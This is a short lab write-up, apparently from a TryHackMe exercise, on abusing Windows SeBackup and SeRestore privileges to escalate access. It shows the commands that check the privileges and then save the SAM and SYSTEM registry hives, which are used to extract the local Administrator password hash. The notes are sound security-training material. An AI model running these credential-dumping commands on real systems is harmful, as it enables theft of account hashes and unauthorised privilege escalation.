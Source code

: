 The SeBackup and SeRestore privileges ***allow users to read and write to any file, bypassing the DACL restrictions***. These privileges are ***intended for users who need to perform backups without full administrative access***. However, an attacker with these privileges can escalate their access by copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

**Check Privileges**
```
whoami /priv
```
- `SeBackupPrivilege`
- `SeRestorePrivilege`

**Backup the SAM and SYSTEM Hashes**
```
# SYSTEM
reg save hklm\system C:\Users\THMBackup\system.hive

# SAM
reg save hklm\sam C:\Users\THMBackup\sam.hive
```

